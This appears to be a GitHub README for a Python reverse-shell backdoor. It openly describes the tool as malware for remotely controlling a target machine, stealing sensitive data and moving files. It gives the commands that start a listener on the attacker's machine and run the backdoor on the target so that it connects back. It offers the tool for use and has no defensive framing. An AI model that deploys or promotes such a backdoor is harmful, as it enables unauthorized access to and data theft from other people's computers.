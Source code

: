 # Reverse Backdoor

## Description & Usage
A backdoor is program/malware which gives us remote access to target device. This tool is for reverse shell access, which allows us remotely control target machine, crawl in its system, steal sensitive data, execute commands, upload or download files. 

I am going to add more advanced features later :)

### Requirements
Python v3

## Run

```sh
# On your machine:
$ python listener.py --ip <your_ip> --port <port_number>

# On target machine:
$ python reverse_backdoor.py --ip <your_ip> --port <same_port>
```

## Manual